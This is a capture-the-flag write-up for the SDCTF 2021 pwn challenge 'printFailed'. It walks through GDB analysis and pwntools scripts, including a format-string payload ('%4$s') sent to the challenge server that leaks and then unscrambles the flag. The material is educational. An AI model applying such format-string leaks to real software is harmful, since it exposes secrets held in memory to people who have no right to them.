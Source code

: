 ```yaml
---
layout: load_md
title: The White Circle | Sdctf 2021 | printFailed Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Sdctf 2021
parent: sdctf_2021
category: pwn
challenge: printFailed
tags: "pwn, twh, format string"
date: 2021-05-10T00:00:00+00:00
last_modified_at: 2021-05-10T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Sdctf 2021</h1>

## printFailed
> Solved By : thewhiteh4t

* Right from the start we get a segfault on this binary

```bash
./printFailed
zsh: segmentation fault (core dumped)  ./printFailed
```

* Let's investigate in GDB

![](https://i.imgur.com/91Rzavz.png)

* It's trying to open **flag.txt** but it does not exist, I created the file and relaunched the binary and it works now

```bash
./printFailed
can you guess the scrambled flag?
yes
you guessed:
yes
wrong
```

* It prints the input, let's look into GDB again
* A scramble function is called soon after the file is read
* Here we can see the scrambled flag : 

![](https://i.imgur.com/itwobGI.png)

```
"tedug|g5l4`gm5h~\v", '\001' <repeats 22 times>
```

* this looks familiar

```
tedug|g5l4`gm5h~\v
sdctf{f4k3_fl4g}
```

* so the input is shifted by 1 character!
* let's try to input the scrambled flag in the local binary

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF('./printFailed')

guess = b'tedug|g5l4`gm5h~\v' + b'\001' * 22

p = elf.process()
p.send(guess)
out = p.recv(4096)
print(out)
```

![](https://i.imgur.com/z5MuV9f.png)

* the scrambled flag works!
* but now the issue is that we don't know the actual flag so we cannot make a scrambled flag
* earlier we saw that the binary prints the input, this hints at `format string exploit`
* this article helped a lot in figuring out the way forward
* https://nikhilh20.medium.com/format-string-exploit-ccefad8fd66b
* https://man7.org/linux/man-pages/man3/printf.3.html

```
%s   -> string
%2$s -> 2nd argument
%3$s -> 3rd argument
```

* I tried them one by one and `%4$s` leaks the scrambled flag! 

![](https://i.imgur.com/kPVOxuG.png)

* Here is the final script and output :

```python
#!/usr/bin/env python3

from pwn import *

host = 'printf.sdc.tf'
port = 1337

payload = b'%4$s'

conn = remote(host, port)
conn.send(payload + b'\n')
res = conn.recv(4096).decode().split('\n')[2]
conn.close()

print(res)

for char in res:
    print(chr(ord(char) - 1), end='')
```

**OUTPUT :**

![](https://i.imgur.com/DCmtMWZ.png)